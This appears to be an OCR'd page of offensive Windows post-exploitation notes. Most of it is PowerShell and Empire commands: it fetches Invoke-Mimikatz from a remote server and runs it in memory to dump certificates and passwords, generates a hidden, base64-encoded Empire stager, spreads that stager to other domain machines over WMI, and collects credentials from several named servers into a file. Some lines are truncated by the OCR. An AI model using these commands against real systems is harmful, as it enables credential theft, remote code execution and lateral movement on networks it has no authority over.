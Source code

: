 ### Dumping certificates from target machine with powershell and mimikatz in memory:

on the target machine launch the following:

```powershell
PS> $browser = New-Object System.Net.WebClient
PS> $browser.Proxy.Credentials =
[System.Net.CredentialCache]::DefaultNetworkCredentials

PS>
IEX($browser.DownloadString("https://raw.githubusercontent.Mimikatz.ps1"))

PS> invoke-mimikatz -DumpCerts
```

### Infecting other domain joined machines using wmi method from powerview:

We generate our stager’s code on the Front Gun server:

```
(Empire: stager/launcher) > set Listener test
(Empire: stager/launcher) > generate
powershell.exe -NoP -sta -NonI -W Hidden -Enc
WwBTAHkAUwB0AGUAbQAuAE4ARQBUAC4AUwBlAFIAVgBpAGMARQBQAG8AaQBuAHQATQBhAG4AQQBHAGUAUgBdADoAOgBFAHgAcABlAGMAdAAxADAAMABDAE8AbgBUAEk 
```

We then include it in a WMI remote call from the 10.10.20.118 machine:

```powershell
PS> invoke-wmimethod -ComputerName FRPC021
win32_process -name create -argumentlist
("powershell.exe -NoP -sta -NonI -W Hidden -Enc
WwBTAHkAUwB0AGUYA…")
```

### Downloading and executing a powershell script in memory ( Mimikatz.ps1 ) to harvest admin password on the targeted domain controller. This script is run directly from the target

```powershell
$browser = New-Object System.Net.WebClient
IEX($browser.DownloadString("http://[your-server-ip]:[port]/Invoke-Mimikatz.ps1"))
invoke-Mimikatz
```

### Running the above script on multiple domain joined machines to harvest all passwords

```powershell
$browser = New-Object System.Net.WebClient
IEX($browser.DownloadString("http://[your-server-ip]:[port]/Invoke-Mimikatz.ps1"))

invoke-mimikatz -Computer FRSV27, FRSV210,FRSV229, FRSV97 |out-file result.txt -Append

```

